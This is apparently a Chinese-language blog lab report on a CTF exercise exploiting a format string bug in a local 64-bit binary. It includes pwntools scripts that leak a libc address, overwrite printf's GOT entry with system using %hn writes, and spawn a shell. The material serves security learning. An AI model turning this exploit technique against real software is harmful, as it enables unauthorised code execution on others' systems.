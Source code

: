 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      格式化字符串漏洞实验报告 				# 标题 
subtitle:   Hello Eutopia's Blog #副标题
date:       2023-10-23 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-9.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 格式化字符串
    - PWN
    - CTF
---
```

# 格式化字符串漏洞实验报告

## 考点

- 格式化字符串漏洞利用
- 对64程序与32位程序区别的理解
- 覆写got表地址

## 实验过程

- 使用checksec, file, ldd等命令查看程序信息：

![基本信息](https://s3.bmp.ovh/imgs/2023/10/12/7c9860c6a0d86e84.png)

​		可见程序为64位，启动了DEP保护，动态链接。

- 使用patchelf修改libc文件。

![patchelf](https://s3.bmp.ovh/imgs/2023/10/12/99131d6c51a807b5.png)

- 使用ida库打开程序，反编译。

![main](https://s3.bmp.ovh/imgs/2023/10/12/e13787320dd249ee.png)

​		可以发现`printf(buf)`代码存在格式化字符串漏洞。

- 构造python脚本进行gdb调试：

```python
from pwn import *

context(arch="amd64", log_level="debug")
p = process("./format_string")

payload = flat(b"%1$p")
gdb.attach(p, "b *0x4006AD")
p.sendlineafter("Format String\n", payload)

p.interactive()
```

​		`%1$p`表示输出第一个参数的指针形式输出![gdb](https://s3.bmp.ovh/imgs/2023/10/12/355df61db3c6c417.png)

​		查看栈中情况，可以发现`_libc_stat_main+240`地址，计算得到该地址为第26个参数（64位程序需要注意前6个参数会在寄存器中）。因此要泄漏`libc`地址，可以利用`%25$p`。

- 获取libc基址后，可以获取libc中的`system`函数地址。然后可以通过修改printf函数got表的方式来使程序在执行`printf`函数转去执行`system`函数，并且以输入`"/bin/sh"`字符串达到执行函数`system("/bin/sh")`的目的。
- 由于64位程序中函数地址高位为`\x00`，因此会导致printf函数输出时截断，所以构造payload时printf函数地址需要放在末尾，然后由于64位地址如果使用`%n`直接对整体进行修改的话，会造成printf输出字符数目过大，耗时且易崩溃。所以考虑使用`%hn`来进行两字节的修改。
- 构造payload，根据system函数的地址分两次修改。

```python
# flag: tmp1 < tmp2时为True
# tmp1: 高两字节， tmp2: 低两字节
if flag == True:
    fmt = flat(b'%', tmp1, b'c', b'%10$hn', b'%', tmp2, b'c%11$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got+2, printf_got)
else:
    fmt = flat(b'%', tmp2, b'c', b'%11$hn', b'%', tmp1, b'c%10$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got, printf_got+2)
```

​		发送payload后栈情况：

![payload-gdb](https://s3.bmp.ovh/imgs/2023/10/12/05f26a39662fcbb5.png)

​		执行printf函数后，可见printf函数got表地址已被修改为system函数地址，然后输入`"/bin/sh"`字符串，即可返回shell。

![payload-gdb-1](https://s3.bmp.ovh/imgs/2023/10/12/95e9c22831c18994.png)

- 最终python脚本如下：

```python
from pwn import *

context(arch="amd64", log_level="debug")
p = process("./format_string")

# 获取read函数在libc中偏移
libc = ELF("./libc-2.23.so")
system_offset = libc.symbols['system']

# 泄漏libc地址
payload = flat(b'%25$p')
gdb.attach(p, 'b *0x4006AD')
p.sendlineafter("Format String\n", payload)
libc_addr = int(p.recvline(), 16) - 0x20840  # 0x20840
success(hex(libc_addr))

system_addr = libc_addr + system_offset
print(hex(system_addr))

flag = True
tmp = str(hex(system_addr))
print(tmp)
tmp1 = tmp[6:10]
tmp2 = tmp[10:14]
tmp1 = int(tmp1, 16)
tmp2 = int(tmp2, 16)
if tmp1 > tmp2:
    flag = False
    tmp1 = tmp1 - tmp2
else:
    flag = True
    tmp2 = tmp2 - tmp1
print(tmp1)
print(tmp2)
tmp1 = str(tmp1)
tmp2 = str(tmp2)


# 修改got表
elf = ELF("./format_string")
printf_got = elf.got["printf"]
print(printf_got)
if flag == True:
    fmt = flat(b'%', tmp1, b'c', b'%10$hn', b'%', tmp2, b'c%11$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got+2, printf_got)
else:
    fmt = flat(b'%', tmp2, b'c', b'%11$hn', b'%', tmp1, b'c%10$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got, printf_got+2)

p.send(payload)

# 发送"/bin/sh"字符串
payload = flat(b"/bin/sh")
p.send(payload)

p.interactive()
```



## 结果

![result](https://s3.bmp.ovh/imgs/2023/10/12/b3c775647ebde5c3.png)
